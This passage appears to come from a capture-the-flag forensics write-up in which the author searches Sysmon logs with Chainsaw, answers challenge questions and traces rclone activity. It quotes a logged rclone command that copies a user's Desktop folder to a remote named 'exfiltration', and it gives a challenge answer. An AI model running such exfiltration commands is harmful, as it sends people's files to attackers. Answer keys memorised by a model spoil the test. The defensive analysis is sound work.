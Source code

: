 The above log says the `ProcessId` is `3820`.

```
What is the ID of the process used by the attackers to configure their tool? (for example: 1337)
> 3820
[+] Correct!

What is the name of the folder the attacker exfiltrated; provide the full path. (for example: C:\Users\user\folder)
>
```
Now we're going to need to search for more logs, as the above log was merely the initial setup of the `rclone.exe` program, not when it was actually ran.

```
> .\chainsaw.exe search "rclone" .\Logs\
```
This gives us quite a few more logs to look through. Among them, this one:

```
Event:
  EventData:
    CommandLine: '"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v'
    Company: https://rclone.org
    CurrentDirectory: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\
    Description: Rsync for cloud storage
    FileVersion: 1.61.1
    Hashes: SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961
    Image: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe
    IntegrityLevel: Medium
    LogonGuid: 10DA3E43-D892-63F8-4B6D-030000000000
    LogonId: '0x36d4b'
    OriginalFileName: rclone.exe
    ParentCommandLine: '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" '
    ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
    ParentProcessGuid: 10DA3E43-D8D2-63F8-9B00-000000000900
    ParentProcessId: 5888
    ParentUser: DESKTOP-UTDHED2\wade
    ProcessGuid: 10DA3E43-D935-63F8-B200-000000000900
    ProcessId: 5116
    Product: Rclone
    RuleName: '-'
    TerminalSessionId: 1
    User: DESKTOP-UTDHED2\wade
    UtcTime: 2023-02-24 15:35:17.516
  System:
    Channel: Microsoft-Windows-Sysmon/Operational
    Computer: DESKTOP-UTDHED2
    Correlation: null
    EventID: 1
    EventRecordID: 78
    Execution_attributes:
      ProcessID: 4288
      ThreadID: 5172
    Keywords: '0x8000000000000000'
    Level: 4
    Opcode: 0
    Provider_attributes:
      Guid: 5770385F-C22A-43E0-BF4C-06F5698FFBD9
      Name: Microsoft-Windows-Sysmon
    Security_attributes:
      UserID: S-1-5-18
    Task: 1
    TimeCreated_attributes:
      SystemTime: 2023-02-24T15:35:17.525069Z
```